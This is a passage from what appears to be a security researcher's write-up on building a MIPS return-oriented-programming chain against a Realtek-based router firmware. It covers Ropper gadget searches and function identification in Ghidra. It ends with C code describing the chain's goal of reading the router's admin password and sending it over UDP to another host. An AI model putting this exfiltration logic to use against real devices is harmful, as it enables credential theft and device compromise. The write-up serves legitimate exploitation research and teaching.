 I mentioned Ropper earlier, but I thought I would knock together a quick set of examples I found useful:
- `ropper --arch MIPS --file chaneve_router.bin --search "lw \$a0" --all` : Finds all gadgets containing `lw $a0, X($X)` instruction, including repeated gadgets
- `ropper --arch MIPS --file chaneve_router.bin --search "move \$a1, \$s?"` : Finds all gadgets that move any *s* register into *$a1*
- `ropper --arch MIPS --file chaneve_router.bin --search "move \$??, \$sp" --inst-count 10` : Finds all gadgets that move the stack pointer to a register, with a maximum of 10 instructions in the gadget (instead of the default max of 6)

## Finding functions

In some binaries without symbols, finding functions can be pretty difficult - especially if things like debug strings have been stripped out or source code is not available. Luckily for us, there are plenty of debug strings that can be used to identify loads of primitive C functions, such as *socket*, *sendto*, *recvfrom*, *setsockopt*, etc. 

I also identified other functions such as *sleep*, *malloc*, and *free* by googling some debug strings and finding source code online, as this is a Realtek SDK it is pretty simple to find. Then it is just a matter of comparing it against what you have in Ghidra, and you can easily name plenty of functions.

# Building the Chain

Now that we know some fundamentals of MIPS, how to do ROP, and how to find good gadgets, we can get to work on the chain.

## Goal

The goal of the chain is to send the admin password of the router to some other device on the network via UDP socket. So we basically need to execute the following code in C using ROP:

```c
int sockfd;
struct sockaddr_in server_addr;
char* message = malloc(sizeof(char) * 100); // can be some heap address in our chain

// create a UDP socket
sockfd = socket(AF_INET, SOCK_DGRAM, 0);

// Get the admin password from the config
config_get(0x1010200, message);

// set up server address
memset(&server_addr, 0, sizeof(server_addr));
server_addr.sin_family = AF_INET;
server_addr.sin_port = htons(4900);
server_addr.sin_addr.s_addr = inet_addr("192.168.188.1");

// send message to server
sendto(sockfd, message, strlen(message), 0, (struct sockaddr *)&server_addr, sizeof(server_addr));
```
